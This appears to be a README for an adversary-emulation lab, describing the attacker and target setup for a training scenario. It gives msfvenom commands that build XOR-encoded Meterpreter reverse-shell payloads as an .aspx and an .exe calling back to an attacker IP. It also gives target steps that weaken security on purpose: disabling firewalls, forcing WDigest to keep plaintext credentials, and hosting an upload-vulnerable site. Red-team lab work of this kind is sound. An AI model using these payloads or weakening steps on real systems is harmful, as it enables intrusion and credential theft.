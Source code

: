# Scenario 1 Infrastructure

## I. Emulation Team Infrastructure

### 1. Attack Platform: 

#### [+] Tested and executed on Kali Linux 2023.2

#### [+] Metasploit 6.3.21-dev

#### [+] Stage certain files for download
- Craft session.aspx
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor LHOST=<ip_attacker> LPORT=4444 -f aspx > ~/modules/session.aspx
```

- Craft session.exe
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor LHOST=<ip_attacker> LPORT=4445 -f exe > ~/modules/session.exe
```
- Copy these files from `Resources` to `~/modules/`
```
PsExec.exe
sysinfo.ps1
7z.exe
```

- `~/modules/` should now contains these
```
PsExec.exe
sysinfo.ps1
7z.exe
session.aspx
session.exe
```

## II. Target Infrastructure

### 1. AD server
#### [+] Tested and executed on Window Server 2012 R2
#### [+] Turn off firewall
#### [+] Enable File and Printer Sharing
- Open Powershell as Administrator
```
Set-NetFirewallRule -DisplayGroup “File And Printer Sharing” -Enabled True -Profile Private
```

### 2. IIS server
#### [+] Tested and executed on Window Server 2012 R2
#### [+] Turn off firewall
#### [+] Forcing WDigest to Store Credentials in Plaintext
- Open Powershell as Administrator
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
#### [+] Join AD domain
#### [+] Domain user with local admin access on this machine
#### [+] A website with upload file vulnerability
